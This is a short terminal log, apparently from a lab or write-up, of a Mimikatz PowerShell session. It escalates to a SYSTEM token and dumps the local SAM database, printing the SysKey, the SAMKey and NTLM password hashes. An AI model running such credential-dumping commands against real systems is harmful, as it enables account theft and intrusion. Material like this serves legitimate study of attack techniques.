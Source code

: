 ```

mimikatz(powershell) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

508	{0;000003e7} 1 D 32920     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;000c0c9f} 1 F 29726105  	SHIRE\nmartha	S-1-5-21-2511471446-1103646877-3980648787-1106	(12g,23p)	Primary
 * Thread Token  : {0;000003e7} 1 D 34211255  	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz(powershell) # lsadump::sam
Domain : HR001
SysKey : c7bc124448d3851819e68f8c2c199c2f
Local SID : S-1-5-21-3594478387-3513325568-2589039918

SAMKey : 8b66c564e175f6a7c0c40bc70f65144f

RID  : 000001f4 (500)
User : Administrator

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 63a935cccb1d1be6c4011ec2a68f1a95

RID  : 000003e9 (1001)
User : Nora
  Hash NTLM: f9558f5eff6314996c96ec2c3800d3f0

mimikatz(powershell) # token::revert
 * Process Token : {0;000c0c9f} 1 F 29726105  	SHIRE\nmartha	S-1-5-21-2511471446-1103646877-3980648787-1106	(12g,23p)	Primary
 * Thread Token  : no token
 ```